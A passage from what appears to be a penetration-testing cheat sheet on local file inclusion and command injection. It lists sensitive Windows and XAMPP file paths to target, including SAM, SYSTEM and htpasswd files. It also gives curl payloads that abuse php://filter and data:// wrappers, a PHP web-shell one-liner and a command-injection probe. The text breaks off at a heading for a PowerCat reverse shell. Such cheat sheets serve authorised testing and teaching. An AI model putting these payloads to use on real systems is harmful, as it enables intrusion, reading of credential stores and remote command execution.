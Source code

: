    C:\Windows\repair\SAM
    C:\Windows\repair\system
    C:\Windows\System32\config\AppEvent.evt
    C:\Windows\System32\config\RegBack\SAM
    C:\Windows\System32\config\RegBack\system
    C:\Windows\System32\config\SAM
    C:\Windows\System32\config\SecEvent.evt
    C:\Windows\System32\config\SysEvent.evt
    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\drivers\etc\hosts
    C:\Windows\System32\winevt\Logs\Application.evtx
    C:\Windows\System32\winevt\Logs\Security.evtx
    C:\Windows\System32\winevt\Logs\System.evtx
    C:\Windows\win.ini
    C:\xampp\apache\conf\extra\httpd-xampp.conf
    C:\xampp\apache\conf\httpd.conf
    C:\xampp\apache\logs\access.log
    C:\xampp\apache\logs\error.log
    C:\xampp\FileZillaFTP\FileZilla Server.xml
    C:\xampp\MercuryMail\MERCURY.INI
    C:\xampp\mysql\bin\my.ini
    C:\xampp\php\php.ini
    C:\xampp\security\webdav.htpasswd
    C:\xampp\sendmail\sendmail.ini
    C:\xampp\tomcat\conf\server.xml
    

#### 3.3.5 PHP Wrappers

- **`php://filter`**

    curl "http://<TARGET>/index.php?page=php://filter/convert.base64-encode/resource=<FILE>"
    
    # Decode base64-encoded output
    echo "<BASE64_ENCODED_OUTPUT>" | base64 -d
    

- **`php://data`**

    curl "http://<TARGET>/index.php?page=data://text/plain,<PHP_PAYLOAD>"
    
    # Encode PHP payload in base64:
    echo -n &#39;<?php echo system($_GET["cmd"]); ?>&#39; | base64
    

#### 3.3.6 OS Command Injection

- **Detect Windows Commands Execution:**

    (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
    

- **Download and Execute PowerCat Reverse Shell:**
